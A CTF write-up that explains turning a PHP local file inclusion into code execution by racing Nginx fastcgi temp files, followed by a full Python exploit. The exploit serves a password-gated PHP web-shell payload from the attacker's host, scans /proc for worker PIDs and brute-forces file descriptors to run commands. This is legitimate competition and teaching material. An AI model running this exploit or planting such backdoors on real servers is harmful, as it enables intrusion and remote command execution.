 from hxp ctf


We are presented with a minimal PHP (🤎) challenge with the goal of getting code execution:
```
<?php ($_GET['action'] ?? 'read' ) === 'read' ? readfile($_GET['file'] ?? 'index.php') : include_once($_GET['file'] ?? 'index.php');
```
It’s clear that we again have a (hard?) LFI PHP task via include_once($_GET['file'] ?? 'index.php'). Additionally, the challenge seems to contain a suspicious readfile branch in the otherwise aesthetically pleasing minimal appearance. Let’s use this feature to write a file with attacker-chosen content in order to get code execution.

Note: this challenge can also be solved without the readfile feature, as demonstrated here.

readfile is a neat PHP function that: “Reads a file and writes it to the output buffer.” Contrary to include, it also supports reading URL streams like http:// resources and directly writes them to the output buffer.
Attack plan:

    Use readfile to read a big and slow HTTP resource (and keep the connection open)
    Use Nginx’s fastcgi_buffering to create a tempfile
    Include the freshly created tempfile
    Usual racing and stuff
    …
    Profit

Annoyances:

readfile and fastcgi_buffering seems to only create a file when the client is connected via HTTP/1.0 (see curl part in exploit). Otherwise, chunked transfer can be used.

Nginx instantly unlinks the newly created file.

Including the new file via our friend procfs (🤎) e.g /proc/$NGINX_WORKER_PID/fd/$FD only works within a very small time window and requires a lot of luck (or a lot of violent force). If we’re too slow, PHP’s include resolves this path to strings like /var/lib/nginx/fastcgi/4/01/0000000014 (deleted), which doesn’t exist in the filesystem. Luckily the logic in include can be confused via /proc/self/fd/$NGINX_WORKER_PID/../../../$NGINX_WORKER_PID/fd/$FD (thanks @hlt for this trick!), which will make it always interpret the content of the original file. This trick greatly reduces the amount of luck/force needed to make this exploit work reliably and quickly.

Note: This race can also be won without confusing include, see pasten’s includer’s revenge + counter writeup.

Full exploit:

```
#!/usr/bin/env python3
from http.server import HTTPServer, BaseHTTPRequestHandler
from socketserver import ThreadingMixIn
import threading, secrets, time, requests, sys, os, hashlib, signal

password = secrets.token_urlsafe(16)
backdoor_name = secrets.token_urlsafe(8)
backdoor_password = secrets.token_urlsafe(16)
backdoor_password_hash = hashlib.md5(backdoor_password.encode()).hexdigest()

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'
MY_IP = sys.argv[3]
MY_PORT = int(sys.argv[4])

payload = f'''<?php if(md5($_GET["s"])==="{backdoor_password_hash}")echo shell_exec($_GET["c"]); echo 'DONE-'.'{backdoor_name}';__halt_compiler();'''.encode()

bruter_runnig = False
found = False

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        global bruter_runnig

        self.send_response(200)
        self.end_headers()
        print(f'[*] request: {self.path}', file=sys.stderr)
        if password not in self.path:
            return

        for i in range(15):
            if found:
                exit()

            if i == 0:
                self.wfile.write(payload*(13*1024*1024//len(payload)))

                if not bruter_runnig:
                    bruter_runnig = True
                    for pid in nginx_workers:
                        a = threading.Thread(target=attacker, args = (pid, ), daemon=True)
                        a.start()

            else:
                self.wfile.write(payload)

            time.sleep(1)

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

def server():
    print('[+] http server started', file=sys.stderr)
    server = ThreadingSimpleServer(('0.0.0.0', MY_PORT), Handler)
    server.serve_forever()

s = threading.Thread(target=server, daemon=True)
s.start()

nginx_workers = []
sess = requests.Session()

r  = sess.get(URL, params={
    'file': f'/proc/cpuinfo'
})

processors = r.text.count('processor')
print(f'[*] processors: {processors}', file=sys.stderr)

for pid in range(250):
    r  = sess.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= processors:
            break

    time.sleep(0.1)
else:
    print('[+] not all nginx workers found :(, try to increase pid max?', file=sys.stderr)
    exit(1)


def attacker(pid):
    global found
    time.sleep(2)

    while True:

        print(f'[+] starting brute: {pid}', file=sys.stderr)
        for fd in range(4, 64):
            if found:
                exit()

            r  = requests.get(URL, params={
                'file': f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}',
                'action': 'include',
                's': backdoor_password,
                'c': 'echo "\n"; /readflag; id; ls -l /proc/*/fd/; echo "\n"'
            })
            if r.status_code == 200 and 'DONE-' + backdoor_name in r.text:
                print(f'[*] FOUND {pid} {fd} {r.text}', file=sys.stderr)

                found = True
                exit()


for i in range(15):
    print(f'[+] starting download {i}', file=sys.stderr)
    os.system(f'timeout 15 curl -s -0 --limit-rate 1k "{URL}/?action=read&file=http://{MY_IP}:{MY_PORT}/?{password}" > /dev/null &')

    for _ in range(int(15/0.5)):
        if found:
            exit()
        time.sleep(0.5)
```
